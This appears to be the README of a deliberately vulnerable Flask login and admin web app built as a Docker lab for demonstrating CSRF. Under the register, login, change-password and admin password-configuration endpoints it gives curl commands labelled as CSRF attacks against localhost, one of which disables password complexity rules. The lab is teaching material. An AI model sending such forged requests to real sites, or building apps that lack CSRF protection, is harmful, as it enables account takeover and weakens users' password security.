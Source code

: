 # Safe Register & Login Administration

__Unsafe mode for Demonstration.__

Build with:

__BACKEND:__ _Python 3.9 & Flask_

__FRONTEND:__ _JS, HTML & CSS_

__INTEGRATIONS:__ _Jinja2_

Deployed over Docker, inorder to contain a safety lab environment

## Endpoints

**Home**

* Point for demonstrate a CSRF attacks

**User**

* Registration
* Login
* Change Password
* Logout

**Admin**

* Admin's Menu
    * View all Users List
    * Change Password Configuration

## Home

endpoint: `/`\
![Home](https://user-images.githubusercontent.com/71320956/128612948-87c16955-b0cb-451b-95ac-9ef09cde5ca4.PNG)


## User

### Register

User Register by given _Name_, _E-mail_, _Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/register`
![Register](https://user-images.githubusercontent.com/71320956/128612974-48a73d9a-335d-43ee-85d8-12c54adee72f.PNG)

__CSRF attack on endpoint:__
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=AAaa1212@!12' -F 're_password=AAaa1212@!12' 
http://127.0.0.1:5000/users/register
````
\
__Result of attack:__\
![HackerRegistrationDB](https://user-images.githubusercontent.com/71320956/128612992-0c331aad-93c2-46d2-97a6-5ffe32c645da.PNG)


### Login

User Login by given _Name\Email_ and _Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/login`

![Login](https://user-images.githubusercontent.com/71320956/128613001-3d4da68d-239e-4a2c-9cb8-8ac8b78ef9a1.PNG)
__CSRF attack on endpoint:__
````
$ curl -X POST -F 'name_email=Hacker' -F'password=AAaa1212@!12' 
http://127.0.0.1:5000/users/login
````
__Result of attack:__\
![HackerLogin](https://user-images.githubusercontent.com/71320956/128613003-aa2d78aa-4a79-451f-84d6-a0a72b0169df.PNG)

### Change Password

User Change Password by given _Username_, _E-mail_, _New Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/change_password`

![ChangePassword](https://user-images.githubusercontent.com/71320956/128613009-17531174-2d74-4d45-a03c-2272917365bc.PNG)
__CSRF attack on endpoint:__
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=BBbb1212@!12' -F 're_password=BBbb1212@!12' 
http://127.0.0.1:5000/users/change_password
````
__Result of attack:__\
![HackerChangePassword](https://user-images.githubusercontent.com/71320956/128613015-03a99a41-9c0f-45a7-9a0f-826468d10328.PNG)


### Logout

User Logout

__methods:__ `GET`\
__endpoint:__ `/users/logout`
![AfterUserLogin](https://user-images.githubusercontent.com/71320956/128613030-143e994e-e4ed-4eb4-b8b5-2d9aa5479443.PNG)

## Admin

### Admin's Menu

__methods:__ `GET`\
__endpoint:__ `/admin/menu`

![AdminMenu](https://user-images.githubusercontent.com/71320956/128613037-286c71ef-8872-4de2-9754-b1c94eddbb96.PNG)

### User's List

Display all registered users & __Block/Unblock__ users

__methods:__ `GET`\
__endpoint:__ `/admin/all_users`

![UsersList](https://user-images.githubusercontent.com/71320956/128613054-b72342c5-5f27-47d0-b48d-fe734f4b6339.PNG)

### Password Configuration

Change password configuration:

* Length
* Complexity
* History
* Fail attempts

__methods:__ `GET`, `POST`\
__endpoint:__ `/admin/password_config`

![PasswordConfiguration](https://user-images.githubusercontent.com/71320956/128613057-39b79463-7f29-4bdc-bc55-f6d82e6c8a24.PNG)

__CSRF attack on endpoint:__
````
$ curl -X POST -F 'upper=0' -F 'lower=0' -F 'digits=0' 
-F 'spec=0' -F 'use_dict=0' -F 'length=0' -F 'history=10' 
-F 'tries=1000'  http://127.0.0.1:5000/admin/password_config
````
